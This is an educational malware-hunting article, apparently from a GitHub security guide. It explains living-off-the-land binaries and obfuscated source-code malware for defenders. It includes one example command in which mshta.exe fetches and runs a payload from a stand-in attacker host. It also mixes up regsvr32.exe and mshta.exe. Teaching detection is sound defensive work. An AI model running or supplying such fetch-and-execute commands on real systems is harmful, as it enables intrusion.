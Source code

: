 # Malware Hunting - Advanced
___
Author(s): a_person, Carbonice, Donkey (d0nkeyman), sv_du (sv-du)

Last Updated: 07-2-2025

<details><summary>Recommended Prerequisites (click to expand)</summary></details>

## Note

This article is structured like so:
1. What is it?
2. Why is it hard to detect?
3. Example
4. Mitigation/Detection

## LOLBinaries

LOL in this case stands for "Living Off the Land." These are pre-existing legitimate tools/binaries, typically trusted and signed, that are abused to do malicious activity. The reason for doing this is to blend in with normal system activity, which can reduce the likely hood of being detected.

The main reason why it is hard to detect these, as stated above, is because of the leveraging of normal tools.

An example of malware using LOLBins is the use of regsvr32.exe to execute a malicious script/payload without dropping an actual executable file to disk. This technique is often used in fileless malware attacks.
```cmd
mshta.exe "http://attacker.com/skibidipayload.hta"
```
In this example:
- mshta.exe is a legit Windows binary used to run .hta files.
- http://attacker.com/skibidipayload.hta is a malicious payload
- mshta.exe will then download the file and execute it from memory

Modern EDRs (Endpoint Detection and Response) and AVs (Antivirus) can detect this, thankfully. They typically use behavioral analysis along with Security Information and Event Management and User and Entity Behavior Analytics. AppLocker and Windows Defender Application Control can be used by Windows Defender to restrict LOLBins.

## Source Code Files

Yes, you read that right. Source code files (most commonly Python) are often used because they can easily be obfuscated and are not detected by AVs.

These are difficult to detect because on their own they are harmless, running them with an appropriate application is what trigger the malware. Furthermore, AVs that use dynamic analysis may set up environments without the necesscery applications and/or dependencies installed. This makes AVs start to rely more on hashes, which can be easily changed by adding/deleting comments or obfuscating the code.
